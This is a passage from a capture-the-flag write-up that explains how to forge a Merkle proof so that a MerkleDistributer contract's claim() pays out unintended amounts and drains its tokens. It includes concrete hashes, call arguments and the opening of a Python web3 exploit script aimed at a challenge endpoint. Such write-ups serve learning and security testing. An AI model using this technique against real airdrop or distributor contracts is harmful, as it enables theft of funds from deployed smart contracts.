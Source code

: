 ```python
>>> Web3.keccak(hexstr='00000000000000000000000000000000000000000000000000000000000000258a85e6D0d2d6b8cBCb27E724F14A97AeB7cC1f5e0000005dacf28c4e17721edb')
HexBytes('0xd43194becc149ad7bf6db88a0ae8a6622e369b3367ba2cc97ba1ea28c407c442')
```

Then we will concatenate the hash for index 37 with the proof above :  `0xd48451c19959e2d9bd4e620fbe88aa5f6f7ea72a00000f40f0c122ae08d2207b`.

Finally, split it up the whole thing to `index`, `address` and `amount` and call `claim()` with it and the remaining merkle proofs : `claim(0xd43194becc149ad7bf6db88a0ae8a6622e369b3367ba2cc97ba1ea28c407c442, "0xd48451c19959e2D9bD4E620fBE88aA5F6F7eA72A", 0x00000f40f0c122ae08d2207b, ["0x8920c10a5317ecff2d0de2150d5d18f01cb53a377f4c29a9656785a22a680d1d","0xc999b0a9763c737361256ccc81801b6f759e725e115e4a10aa07e63d27033fde","0x842f0da95edb7b8dca299f71c33d4e4ecbb37c2301220f6e17eef76c5f386813","0x0e3089bffdef8d325761bd4711d7c59b18553f14d84116aecb9098bba3c0a20c","0x5271d2d8f9a3cc8d6fd02bfb11720e1c518a3bb08e7110d6bf7558764a8da1c5"])`

Then tokens of `0x00000f40f0c122ae08d2207b` amount will be drained away from MerkleDistributer, and only a small amount remains : 
```python
>>> hex(0x0fe1c215e8f838e00000 - 0x00000f40f0c122ae08d2207b)
'0xa0d154c64a300ddf85'
```

Again, it's a CTF challenge, "luckily" theres a whitelisted address having the same excat amount : 
```solidity
        "0x249934e4C5b838F920883a9f3ceC255C0aB3f827": {
            "index": 8,
            "amount": "0xa0d154c64a300ddf85",
            "proof": [
                "0xe10102068cab128ad732ed1a8f53922f78f0acdca6aa82a072e02a77d343be00",
                "0xd779d1890bba630ee282997e511c09575fae6af79d88ae89a7a850a3eb2876b3",
                "0x46b46a28fab615ab202ace89e215576e28ed0ee55f5f6b5e36d7ce9b0d1feda2",
                "0xabde46c0e277501c050793f072f0759904f6b2b8e94023efb7fc9112f366374a",
                "0x0e3089bffdef8d325761bd4711d7c59b18553f14d84116aecb9098bba3c0a20c",
                "0x5271d2d8f9a3cc8d6fd02bfb11720e1c518a3bb08e7110d6bf7558764a8da1c5"
            ]
        },
```

Just call `claim()` with data from index 8, and the all tokens in MerkleDistributer will be completely drained away, and only one of the whitelisted address will be set to claimed, other all remains not claimed, so both `condition1` and `condition2` is archieved.

### Exploit script :

```python
from web3 import Web3, HTTPProvider
import rlp
from eth_account import Account
import json

web3 = Web3(HTTPProvider('http://35.188.148.32:8545/1aa28e71-53ed-467e-8c37-61edde7521ec'))

print(f'Block number : {web3.eth.get_block("latest").number}')

# setup contract address
setup_address = "0xc21f2DB2219f34C12306d1e932f7450613a26F1d"
nonce = 1
token_address = Web3.toChecksumAddress(Web3.keccak(rlp.encode([int(setup_address, 16), nonce]))[12:].hex())
print(f'Token contract address : {token_address}')

nonce = 2
distributer_address = Web3.toChecksumAddress(Web3.keccak(rlp.encode([int(setup_address, 16), nonce]))[12:].hex())
print(f'MerkleDistributer contract address : {distributer_address}')
```